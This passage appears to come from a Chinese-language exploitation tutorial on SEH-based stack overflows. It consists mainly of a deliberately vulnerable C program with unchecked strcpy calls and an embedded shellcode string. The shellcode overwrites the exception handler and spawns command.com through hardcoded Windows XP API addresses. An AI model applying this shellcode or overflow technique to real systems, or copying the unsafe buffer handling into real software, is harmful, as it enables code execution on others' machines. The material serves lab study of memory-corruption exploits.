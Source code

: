 也可以用第一篇文章提到的工具,搜索kernel,或者直接用immunity debugger搜索

![test](http://drops.javaweb.org/uploads/images/6f6746b2e264b922882e9a99518e4daeaa42d83e.jpg)

0x7c921931 小端机缘故,倒叙`\x31\x19\x92\x7c`

看最终代码,在保证没有DEP和safeSeh、safeop的情况下可顺利运行.

```
#include "stdio.h"
#include "windows.h"
void GetInput(char* str, char* out)
{

    char buffer[500];
    try
    {
        strcpy(buffer,str);
        strcpy(out,buffer);
        printf("Input received : %s\n",buffer);
    }
    catch (char * strErr)
    {
        printf("No valid input received ! \n");
        printf("Exception : %s\n",strErr);
    }
}
int main()
{
    LoadLibrary("C:\\NppFTP.dll");
    char buf2[10];
    char shellcode[]="\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x91\x91\x91\x91"  //nseh
"\x6A\x6A\x6A\x6A"  //seh handle


"\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
"\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
"\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
"\x77\x1d\x80\x7c"     
"\x52\x8D\x45\xF4\x50"
"\xFF\x55\xF0"
"\x55\x8B\xEC\x83\xEC\x2C\xB8\x63\x6F\x6D\x6D\x89\x45\xF4\xB8\x61\x6E\x64\x2E"
"\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xF4"
"\x50\xB8"
"\xc7\x93\xbf\x77"     
"\xFF\xD0";   //shellcode



    GetInput(shellcode,buf2);
    return 0;
}

```
